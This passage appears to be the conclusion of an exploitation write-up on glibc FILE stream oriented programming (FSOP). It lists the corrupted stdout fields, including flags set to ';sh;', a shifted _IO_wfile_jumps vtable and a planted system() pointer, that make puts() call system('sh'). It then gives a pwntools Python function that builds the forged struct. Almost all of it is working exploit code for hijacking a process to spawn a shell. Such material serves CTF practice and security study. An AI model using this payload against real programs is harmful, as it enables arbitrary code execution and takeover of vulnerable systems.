 <br/>
<br/>
## Conclusion
---
```c
fp->_flags == b"\x01\x01;sh;\x00\x00"
fp->_lock == libc.symbols['_IO_2_1_stdout_'] + 0x10
fp->vtable = libc['_IO_wfile_jumps'] - 0x20
fp->_wide_data = libc.symbols['_IO_2_1_stdout_'] - 16
fp->_IO_read_ptr == 0
fp->_IO_write_base == 0
fp->_unused2 = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104)
```

By configuring stdout like above, calling `puts` will call `system("sh")`.
I made a simple python script to craft this struct easily.

```python
libc.address = libc_base
def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
_IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
_IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
_flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
_offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
__pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00"*0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

_IO_file_jumps = libc.symbols['_IO_file_jumps']
stdout = libc.symbols['_IO_2_1_stdout_']
log.info("stdout: " + hex(stdout))
FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
        lock            = libc.symbols['_IO_2_1_stdout_'] + 0x10, \
        _IO_read_ptr    = 0x0, \
        _IO_write_base  = 0x0, \
        _wide_data      = libc.symbols['_IO_2_1_stdout_'] - 0x10, \
        _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104), \
        vtable          = libc.symbols['_IO_wfile_jumps'] - 0x20, \
        )
```
